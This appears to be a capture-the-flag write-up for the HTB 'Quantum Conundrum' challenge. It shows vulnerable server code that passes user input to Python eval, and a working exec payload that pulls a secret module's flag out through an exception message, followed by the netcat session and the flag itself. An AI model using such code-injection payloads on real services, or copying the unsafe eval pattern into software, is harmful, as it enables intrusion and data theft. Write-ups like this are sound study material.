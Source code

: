 # HTB Cyber Apocalypse 2024: Hacker Royale - Quantum Conundrum

## Challenge

> KORP™, the heartless corporation orchestrating our battles in The Fray, has pushed us to our limits. Refusing to be a pawn in their twisted game, I've learned of a factionless rebel alliance plotting to dismantle KORP™. While it may sound like mere whispers, there's a chance it holds truth. Rumors suggest they've concealed a vital communication system within The Fray, powered by cutting-edge quantum computing technology. Unfortunately, this system is reportedly malfunctioning. If I can restore this communication network, it could be the key to toppling KORP™ once and for all. However, my knowledge of quantum computing is limited. This is where you come in! As I infiltrate The Fray to access the system, I'll rely on your expertise to identify and repair the issue. Are you up for the challenge? Together, we can make a difference in this battle against oppression.

## Metadata

- Difficulty: medium
- Creator: makelaris
- Files: [`challenge`](files/challenge)
- Docker: yes
- Tags: 
- Points: `325`
- Number of solvers: 

## Solution

This one was an unintended solution from us. One of my teammates (`@veloxer`) started this challenge and asked for some new ideas at 1 AM. We immediatelly identified that there is an `eval` in the application which might be exploitable.

But moving a few steps back (the [`challenge`](files/challenge) folder contains the challenge files):
- The `server.py` from line 34 to 39 read our user input and passes it directly to `CommunicationSystem.add_instructions()`

```python
        input: typing.List = req.recv(4096).decode().strip().split(";")
        req.sendall(b"\n % Testing quantum circuit, please wait...\n")
        tests_passes = []
        for _ in range(100):
            communication_system: CommunicationSystem = start_communication_system()
            communication_system.add_instructions(input)
```

- The in `__init__.py` our input is evaluated with `eval`

```python
    def add_instructions(self, instructions: typing.List):
        if len(instructions) > 10:
            raise CommunicationSystemException("Instruction set is too big")
        [self._add_gate(CircuitInstruction(**(eval(gate)))) for gate in instructions]
```

`eval` only allows one statement, but we can start with `exec` which can handle multiple statements. We can test our theory by inputing `time.sleep(5)`, the server will wait 5 seconds.

Now we have a few options:
- Blindly leak the characters of the flag
- Or throw a `CommunicationSystemException` with the `flag` as the message, the message will be sent by the server, the following payload will work:

```python
exec('raise __import__("communication_system").exceptions.CommunicationSystemException(__import__("secret").flag)')
```

```
nc 83.136.254.223 38229

|--------------------------------------------|
| Quantum Renegades Communication System     |
|--------------------------------------------|
| + System initilization  [Success!]         |
| + Quantum Circuit tests [Failed...]        |
| + Receiver decoding     [Success!]         |
|                                            |
| > Input instruction set for fix...         |
|                                            |
|--------------------------------------------|

> exec('raise __import__("communication_system").exceptions.CommunicationSystemException(__import__("secret").flag)')

 % Testing quantum circuit, please wait...

HTB{4lways_us3_a_b3ll_4_t3leportat1on}
```

Flag: `HTB{4lways_us3_a_b3ll_4_t3leportat1on}`

You can read the intended solution at <https://github.com/hackthebox/cyber-apocalypse-2024/tree/main/misc/%5BMedium%5D%20Quantum%20Conundrum>